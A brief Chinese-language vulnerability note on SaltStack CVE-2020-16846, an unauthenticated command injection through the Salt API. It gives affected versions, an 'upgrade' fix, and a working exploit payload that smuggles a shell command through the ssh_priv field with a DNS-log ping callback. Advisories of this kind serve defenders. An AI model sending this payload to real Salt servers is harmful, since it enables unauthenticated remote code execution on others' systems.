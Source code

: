 ### 一 漏洞描述
SaltStack是一个分布式的运维系统，在互联网场景中被广泛应用，有以下两个主要功能:
1.配置管理系统，能够将远程节点维护在一个预定义的状态(例如：确保安装特定的软件包并运行特定的服务)
2.分布式远程执行系统，用于在远程节点上单独或者通过任意选择标准来执行命令和查询数据。

CVE-2020-16846:命令注入漏洞 未经过身份验证的攻击者通过发送特质的请求包，可以通过Salt API注入ssh连接命令导致命令执行。

影响: SaltStack 2015/2016/2017/2018/2019/3000/3001/3002

### 二 漏洞利用
```
command = "token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|ping%20{dnslog}%3b"
headers={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:78.0) Gecko/20100101 Firefox/78.0', 'Content-Type': 'application/x-www-form-urlencoded'}
```

### 三 漏洞修复
升级

> 参考链接  
> https://cloud.tencent.com/developer/article/1969622
